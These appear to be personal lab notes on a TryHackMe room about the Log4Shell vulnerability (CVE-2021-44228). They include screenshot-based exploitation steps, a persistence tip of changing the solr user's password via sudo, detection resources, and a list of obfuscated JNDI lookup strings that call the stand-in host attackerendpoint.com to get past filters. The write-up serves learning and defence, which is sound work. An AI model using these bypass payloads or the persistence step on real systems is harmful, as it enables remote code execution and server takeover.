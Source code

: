 ## Overview
On December 9th, 2021, the world was made aware of a new vulnerability identified as CVE-2021-44228, affecting the Java logging package `**log4j**`. This vulnerability earned a severity score of 10.0 (the most critical designation) and offers remote code trivial remote code execution on hosts engaging with software that utilizes this `**log4j**` version. This attack has been dubbed "Log4Shell"

## Recon
![[Pasted image 20220119080026.png]]

## Exploitation
Sending the payload after setting up LDAP NCAT and HTTP servers
![[Pasted image 20220128050158.png]]
![[Pasted image 20220128050219.png]]
![[Pasted image 20220128050233.png]]
![[Pasted image 20220128050255.png]]

## Persistence
[[Shell Stabilization]]
![[Pasted image 20220128052223.png]]
![[Pasted image 20220128052241.png]]

Check for root permissions using sudo -l and then change passwd of solr for ssh
![[Pasted image 20220128052820.png]]


## Detection

Below are snippets that might help either effort:

-   [https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes) (local, based off hashes of log4j JAR files)
-   [https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d](https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d) (local, based off hashes of log4j CLASS files)
-   [https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228](https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228) (listing of vulnerable JAR and CLASS hashes)
-   [https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1](https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1) (local, hunting for vulnerable log4j packages in PowerShell)
-   [https://github.com/darkarnium/CVE-2021-44228](https://github.com/darkarnium/CVE-2021-44228) (local, YARA rules)

As a reminder, a massive resource is available here: 

[https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/)

## Bypasses

**${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}**

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

**${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}**

**${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}**

**${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}**

**${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}**

**${${::-j}ndi:rmi://attackerendpoint.com/}**

[https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/](https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/)





## References
- [https://github.com/YfryTchsGD/Log4jAttackSurface](https://github.com/YfryTchsGD/Log4jAttackSurface)
-   [https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java](https://www.huntress.com/blog/rapid-response-critical-rce-vulnerability-is-affecting-java)
-   [https://log4shell.huntress.com/](https://log4shell.huntress.com/)
-   [https://www.youtube.com/watch?v=7qoPDq41xhQ](https://www.youtube.com/watch?v=7qoPDq41xhQ)
-   https://tryhackme.com/room/solar